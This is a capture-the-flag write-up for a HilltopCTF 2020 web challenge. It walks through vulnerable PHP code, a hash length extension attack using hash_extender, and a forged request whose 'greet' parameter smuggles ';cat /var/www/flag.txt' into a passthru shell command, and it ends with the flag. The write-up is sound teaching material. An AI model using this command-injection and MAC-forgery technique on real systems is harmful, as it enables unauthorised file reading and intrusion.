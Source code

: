 ```yaml
---
title: What Is The Deadly Bug Here?
layout: page
competition: hilltopctf2020
---
```

## Description


![c9fd42053c1860b5e8adc479279ffeef.png](../../_resources/ec6165ad18424803876d01a024adcda0.png)


## Solving

Given a simple website that looks like this.

![0956ba0662dbb4f93d2dcaa8e8f2527a.png](../../_resources/1f07699a5c3a4904a02dc7d34bc68f56.png)

Examining the response of the request, we could found some interesting headers.

![662190ad5e6f3fa71a40cf56ef3f4240.png](../../_resources/64d64912595a4428b87bab10e38b0aeb.png)


Sending the `?debug` parameter to the website showed us the source code of the challenge. 

```
<?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

There is some interesting information that we can get by statically analyzing the source code. Here are them:
1. `$greet` variable is supposed to contain a name of a file; and we can control the value as this line of code shows:
    ```
    if (isset($_GET['greet'])) $greet = $_GET['greet'];
    ```
2. If you get the reference, this challenge is based on [this](https://www.youtube.com/watch?v=MpeaSNERwQA) video on Youtube by LiveOverflow. `hash_hmac` function in that video is more or less the same with `patched` function in this challenge, but supplying an array into the function would not work anymore because of this line of code:
    ```
    if (is_string($string)) {
        ...
    }
    ```
    Anyway, if you don't understand what I'm talking about, please watch the video, it's all there :).
3. The `patched` function validates our input and returns a message-digested hash value from the input. The difference between this and the function in [that](https://www.youtube.com/watch?v=MpeaSNERwQA) video is: with the intention of patching (or should I say securing) the application, this challenge uses `hash` function instead of `hash_hmac` function to generate the hash value. By doing that, the application is potentially vulnerable to *Hash Length Extension Attack*. We'll come back to this very soon.
4. This line of code:
    ```
    $greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);
    ```
    basically strips out every special character from the `$greet` variable.
5. If the `mac` we provide (`$_GET['mac'`) is not equals to the generated `mac` value, the application is terminated. So we need to make sure that both are the same.
6. Finally, this line of code:
    ```
    echo passthru("cat $greet 2>&1", $err);
    ```
    is how we are gonna get the flag. The `$greet` variable, which we can control, will be passed into `passthru` function; which will then be executed as a shell command.

*Hash Length Extension Attack* is a type of attack where an attacker can use a computed hash (Hash(*message1*)) and the length of the message (message1*) to calculate another hash (Hash(*message1* || *message2*)) for an attacker-controlled message (message2). An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data (read more [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)).

This challenge gives us a hash value and it's original data by sending the `X-MY-GREET` and `X-MY-GREET-MAC` header on the response. Thus, without knowing the secret, we can generate a valid hash for `secret + greet.txt + <arbitrary evil data>` without knowing the value of the prepended secret. We can use *bash command separation* to execute arbitrary command after reading the value of `greet.txt`. Simply put, this would be the payload we want to be passed to the `passthru` function:
```
echo greet.txt;cat /var/www/flag.txt 2>&1
```

The location of the flag can be found on the hint published for this challenge.

There are many tools out there, but for this writeup, [this](https://github.com/iagox86/hash_extender) tool from Ron Bowes will help us doing the *Length Extension Attack*. And here's how we used them:
```
hash_extender -d 'aboutme.txt' -s cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c -a ';cat /var/www/flag.txt' -f sha256 -l 25 --out-data-format=html
```
From the manual:
`-d` is the original string that we're going to extend
`-s` is the original signature or the hash value of the original string
`-a` is the data that we want to append to the original string
`-f` is the hash algorithm
`-l` is the length of the secret, which is leaked when we visit `secret.php` page

![5fb70b6dbb0ed2b07a53175556086711.png](../../_resources/2d86a44f5e294cadbda6a4d893b1b275.png)

Then we get our new hash and new message.
```
New signature: 3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c
New string: aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt

```

![98365288a99edd441e4e4743df0298b5.png](../../_resources/e49e327073c740f7a2194e00ef28c372.png)

Don't worry about the null bytes in the new message, because fortunately the challenge used `filter_var` and those null bytes will be stripped before being passed into `passthru` function.

Send the hash and the message to the application like this:
```
http://192.81.210.234:10002/?mac=3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c&greet=aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt
```

And there's the flag.



![44cba8a2af6184dd0fe48900c4f53949.png](../../_resources/3d59ab4e510d4dad9a613a30c21e5100.png)



## The Flag
Flag is **HilltopCTF{uh...1think_1mad3_itwors3_s00wy}**